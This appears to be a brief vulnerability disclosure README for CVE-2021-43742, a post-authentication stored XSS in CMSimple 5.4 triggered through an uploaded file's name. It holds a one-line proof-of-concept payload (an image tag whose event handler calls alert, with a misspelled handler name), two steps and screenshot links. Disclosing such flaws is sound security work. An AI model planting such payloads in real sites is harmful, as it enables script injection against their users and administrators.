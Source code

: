 

<h1>CVE-2021-43742</h1>

```CMSimple 5.4```

Reported by S1lv3r

```Description :```

Post-auth XSS

```Version :```
CMSimple 5.4 Version

```Attack Type:```
Local

PoC
``` javascript
> <img src='1' onerorr=alert('Silv3r')>s.php

```

```1-``` Go to uploading files section, Then write XSS payload on filename : <br/>
<img src="https://github.com/iiSiLvEr/CMSimple5.4-Vulnerabilities/blob/main/images/REQ.png"  /><br/>
```2-``` Result <br/>
<img src="https://github.com/iiSiLvEr/CMSimple5.4-Vulnerabilities/blob/main/images/XSSPoc.png"  /><br/>

